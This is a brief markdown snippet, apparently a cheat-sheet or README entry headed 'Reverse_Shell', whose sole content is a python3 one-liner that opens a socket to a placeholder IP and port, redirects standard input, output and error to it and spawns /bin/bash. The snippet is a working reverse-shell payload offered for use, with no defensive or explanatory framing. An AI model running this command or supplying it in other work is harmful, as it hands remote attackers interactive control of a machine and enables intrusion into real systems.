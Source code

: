 # Reverse_Shell
## python3
  *python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP",port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'*

